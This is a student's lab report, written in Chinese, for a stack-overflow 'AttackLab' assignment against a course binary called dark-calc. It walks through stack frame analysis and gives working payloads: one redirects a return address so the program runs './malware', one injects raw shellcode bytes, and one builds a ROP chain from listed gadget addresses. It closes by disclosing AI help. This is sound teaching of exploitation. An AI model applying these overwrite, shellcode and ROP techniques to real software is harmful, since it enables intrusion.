



# AttackLab 实验报告

林诗航 24300240228

### 1. 观察栈帧 `input` (20 pts 报告)


1. `input` 的直接调用者是 `main`，返回地址是 `0x401ad1`。
2. 
- `push rbp`：把调用者 `main` 的旧 `rbp` 压栈保存，`rsp -= 8`
- `mov rbp, rsp`：建立 `input` 的栈帧，此时 `rbp` 指向刚保存的旧 `rbp`
- `sub rsp, 0x10`：给 `input` 的局部变量分配 16 字节栈空间
- `$rbp : 0x0000721000800fe0  →  0x0000721000800ff0`；这个 `0x0000721000800ff0` 来自 `push rbp` 保存下来的 `main` 的 `rbp`
3. `$rbp : 0x0000721000800fe8  →  0x0000000000401ad1  →  <main+000e> mov eax, 0x0`；`0x0000000000401ad1` 是一个返回地址，即 `main` 中调用完 `input` 后要返回执行的下一条指令地址
4. `0x401acc <main+9>: call 0x401977 <input>`
5. 
- `call` 作用：将返回地址压栈；跳转到指定地址。
- prologue `push rbp; mov rbp,rsp; sub rsp,0x10` 作用：保存调用者的 `rbp`；建立当前函数的栈帧；为局部变量分配空间。
- `leave` 作用：等价于 `mov rsp,rbp; pop rbp`；丢弃局部变量空间；恢复调用者的 `rbp`；让 `RSP` 指向返回地址。
- `ret` 作用：从栈顶弹出返回地址到 `RIP`；`RSP += 8`；跳回调用者继续执行。

### 2. 用不同长度的字符串输入测试 `dark-calc` (5 pts 报告)


1.
- 20 个字符: 被截断，只处理前 15 个字符；
- 32 个字符：段错误；



2.
- 根据汇编代码发现 `0x401ad1` 为 `input` 返回时跳转的地址，进一步调试进入 `input`，从第一张截图发现返回地址被存在栈空间的地址 `0x0000721000800fe8`；
- 临时字符数组 `expression` 接受输入的字符串，地址为 `0x0000721000800fd0`；
- 数据从 `0x0000721000800fd0` 不断向地址高位延伸，如第二张截图所示，最后超量的数据将 `0x0000721000800fe0` 的内容和 `0x0000721000800fe8` 存的地址完全覆盖

### 3. 利用缓冲区漏洞执行 `./malware` (25 pts 测试 + 5 pts 报告)

- 根据 2 的截图 `command_buf` 的地址为 `0x6030d0`；在 `gets(expression)` 后，直接从 `expression` 复制过来，`input()` 返回；在 `eval()` 函数原地将表达式包装成指令在 `system` 运行；
- 仅当 `dark-calc` 执行 `./malware` 时才成功，需要让 `system` 函数运行 `./malware`，那么需要：
    - 将输入的前缀改为 `./malware`，剩余 7 字符可直接用 `\0`
    - 将 `0x0000721000800fe0` 的内容照抄，否则会段错误；
    - 将 ret 跳转的地址改为 `system` 的地址之前的 `401a6b: mov $0x6030d0,%edi`，保证参数为 `command_buf`，然后立即运行 `system`，从而绕过 `echo $(())` 的包装；

那么构造如下：
```python
payload = b"./malware" + b"\x00" * 7 + b"\xf0\x0f\x80\x00\x10\x72\x00\x00" + b"\x6b\x1a\x40\x00\x00\x00\x00\x00"
```

结果如下：


### 4. 用 GDB 检查 main 函数的机器码 (5 pts 报告)

1. 
- `main` 函数的前三行汇编为 `push rbp; mov rbp,rsp; mov eax,0x0`；
- 执行 `x /9xb 0x401ac3` 结果整理为 `55 48 89 e5 b8 00 00 00 00`；
- 对应的机器码： `push rbp` 为 `55`，`mov rbp,rsp` 为 `48 89 e5`，`mov eax,0x0` 为 `b8 00 00 00 00`；

2. 排列方式：
```
[0x401ac3, 0x401ac4) : push rbp
[0x401ac4, 0x401ac7) : mov  rbp,rsp
[0x401ac7, 0x401acc) : mov  eax,0x0
```

### 5. 栈空间执行 (25 pts 测试 + 5 pts 报告)

- 类似 3(Task1)，把 `0x0000721000800fe8` 处的返回地址改为 `expression` 的地址 `0x0000721000800fd0`；不能改为 `command_buf` 是因为 `strcpy` 遇到第一个 `0x00` 就停止，后面的 shellcode 不会被复制；不能直接跳到 `grade_eval`，需要先把参数寄存器 `edi` 置为 4。
- `expression` 缓冲区一共只有 16 字节，正好用来放 shellcode；它后面的 `0x0000721000800fe0` 存放 `rbp`，`0x0000721000800fe8` 存放返回地址。
- 我最初独立完成的版本是 `mov edi,4; mov ebx,0x401a87; call rbx; ret`：能正确输出目标字符串，但 `grade_eval` 的 `mov %edi,-0x4(%rbp)` 会把参数 4 写到 `0x0000721000800fdc`，覆盖 shellcode 末尾的 `ret`（在 `0xfdc`）；`grade_eval` 返回后从 `0xfdc` 执行 `04 00 00 00`（`add al,0; add [rax],al`），此时 `rax=0`，于是在 `0xfde` 触发段错误。崩溃发生在打印之后，不影响输出，但程序不能正常退出。
- 修改：不用 `call`，而是先把 `grade_eval` 返回后要去的 `0x401c1f`（`__wrap_main+0x11` 的 `mov rsp,r12; pop r12; ret`）压栈，再 `jmp rbx` 进入 `grade_eval`；这样 `grade_eval` 的 `leave/ret` 直接回到 `0x401c1f`，恢复 libc 栈，程序正常退出。

那么构造如下（15 字节指令 + 1 字节填充 + 保存的 `rbp` + 返回地址）：
```python
payload = b"\xbb\x87\x1a\x40\x00" + b"\x68\x1f\x1c\x40\x00" + b"\x6a\x04" + b"\x5f" + b"\xff\xe3" + b"\x00" + b"\xf0\x0f\x80\x00\x10\x72\x00\x00" + b"\xd0\x0f\x80\x00\x10\x72\x00\x00"
```

修改前的输出（输出后段错误）：


修改后的输出（退出码 0）：


### 6. ROP (10 pts 测试 + 10 pts 报告)

- `dark-calc-nx` 非 PIE（gadget 地址固定），但栈 NX 且地址随机，不能像第 5 题那样执行栈上 shellcode。改为劫持 `input` 的返回地址，用 `.text` 里的 gadget 拼出 `grade_eval(4)`。

- `expression` 在 `rbp-0x10`，payload 偏移 0x10 覆盖保存的 `rbp`，0x18 覆盖返回地址，0x20 起是链的 8 字节槽。`input` 的 `leave; ret` 在 `gets`/`strcpy` 后执行：`ret` 取出 `rbp+8` 处的第一个地址，并把 `rsp` 指向 `rbp+0x10`；之后每个 gadget 的 `ret` 依次弹下一格。链只依赖 `rsp`，所以栈的 ASLR 不影响它。

- gadget 在 `0x4019d0–0x401ae3`。x86 指令变长，`objdump -s` 只能看字节，要用 `objdump -d`，并注意从指令中间开始的未对齐 gadget。`__libc_csu_init` 结尾的 `41 5f c3` 中，从 `0x401a33` 看是 `5f c3`，即 `pop rdi; ret`；`0x401a40` 是 `f3 c3`（`repz ret`），可当单独的 `ret`。`grade_eval` 入口 `0x401978`，`exit@plt` 是 `0x4016e0`。

- `grade_eval` 只在 `edi == 4` 时打印，所以先用 `pop rdi; ret` 把 4 放进 `rdi`，再跳到 `grade_eval`；它结尾的 `leave; ret` 回到下一格。然后用 `pop rdi; ret` 把 0 放进 `rdi`，跳到 `exit@plt`。

| 偏移 | 值 | 作用 |
|---|---|---|
| 0x00 | `b"A"*16` | 填满 `expression` |
| 0x10 | `b"B"*8` | 保存的 `rbp` |
| 0x18 | `0x401a33` | `pop rdi; ret` |
| 0x20 | `4` | `rdi = 4` |
| 0x28 | `0x401a40` | `ret`，对齐 |
| 0x30 | `0x401978` | `grade_eval(4)` |
| 0x38 | `0x401a33` | `pop rdi; ret` |
| 0x40 | `0` | `rdi = 0` |
| 0x48 | `0x401a40` | `ret`，对齐 |
| 0x50 | `0x4016e0` | `exit(0)` |

- `input` 的 `rbp` 是 16 字节对齐的，`ret` 后 `rsp = rbp+0x10`，第一个 gadget 入口 `rsp % 16 == 0`；ABI 要求函数入口为 8。`grade_eval` 里的 `printf` 在部分 glibc 上会因不对齐崩溃，所以在 `grade_eval` 和 `exit` 前各插一个 `ret`（`0x401a40`）。GDB 确认两者入口 `rsp % 16 == 8`，且 `edi` 分别为 4 和 0。

构造如下：
```python
p64 = lambda x: x.to_bytes(8, "little")
payload = (
    b"A" * 16 + b"B" * 8
    + p64(0x401a33) + p64(4) + p64(0x401a40)   # rdi=4，对齐
    + p64(0x401978)                            # grade_eval(4)
    + p64(0x401a33) + p64(0) + p64(0x401a40)   # rdi=0，对齐
    + p64(0x4016e0)                            # exit(0)
)
```

输出：


### 7. Canary (10 pts 测试 + 10 pts 报告)


### 使用的工具

- DeepSeek-V4.1-Flash-1017（通过 dsh 使用）：
  - 任务 1：帮助确认答案的出处。
  - 任务 5：最初仅用于查询 `call` 指令的语法；段错误的定位和修改由 AI 辅助完成。我在没有 AI 帮助时独立完成的最好成绩是 payload 能正确输出 `Hope A will be your grade!`，但程序在打印后触发段错误（见 `assets/5-1.png`）。AI 指出 `grade_eval` 的 `mov %edi,-0x4(%rbp)` 覆盖了栈上 shellcode 末尾的 `ret`，并建议改用 `push 返回地址; jmp rbx` 让程序正常退出（修改后的输出见第 5 节）。
  - 任务 6：ROP 的整体思路、gadget 地址（`pop rdi; ret`、`ret`）和链布局由 AI 提示，`payload_rop.py` 与本节报告由 AI 辅助完成并在本机验证。
- 除上述说明外，1–4 题的答案、payload 的构造与地址计算均由我独立完成。（git 仓库中 AI 辅助完成部分会标明 AI Assisted，不完美的历史记录可以在 git 的 commit 记录中找到）